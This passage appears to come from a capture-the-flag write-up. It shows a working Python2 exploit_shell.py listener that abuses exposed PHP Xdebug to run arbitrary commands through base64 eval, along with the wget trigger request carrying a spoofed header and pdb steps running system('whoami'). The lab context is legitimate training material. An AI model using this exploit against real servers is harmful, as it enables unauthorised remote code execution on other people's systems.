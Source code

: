 To avoid the tortuous process of decoding each result of the executed command, you can modify the exploit and automate this, I use the `pdb` Python library to debug the script and find the expressions and code to add or modify. Once all the modifications are done, I run the exploit and I can execute some recognition commands and I can access the first flag.

```bash
nvim exploit_shell.py

python2 exploit_shell.py
wget -q -O - "http://172.20.0.10/info.php?XDEBUG_SESSION_START=phpstorm --header 'X-Forwarded-For: 172.20.0.10'"

  > l
  > c
  > system("whoami")
  > l
  > p client_data
  > re.findall(r'CDATA\[(.*?)\]', client_data)
  > re.findall(r'CDATA\[(.*?)\]', client_data)[0]
  > b64decode(re.findall(r'CDATA\[(.*?)\]', client_data)[0])
```

> **exploit_shell.py**:

```python
#!/usr/bin/env python2

import  socket, pdb, signal, sys, re
from base64 import b64decode

def def_handler(sig, frame):
    print("/n/n[!] Exiting .../n")
    sys.exit(1)

# Ctrl+c
signal.signal(signal.SIGINT, def_handler)

ip_port = ('0.0.0.0', 9000) 
sk = socket.socket()
sk.bind(ip_port) 
sk.listen(10) 
conn, addr = sk.accept() 

while  True: 
    client_data = conn.recv(1024) 
    # pdb.set_trace()

    response_b64 = re.findall(r'CDATA\[(.*?)\]', client_data)[0]

    try:
        output = b64decode(response_b64)
        print(output)
    except:
        None

    data = raw_input ('>> ') 
    conn.sendall('eval -i 1 -- %s\x00' % data.encode('base64'))
```
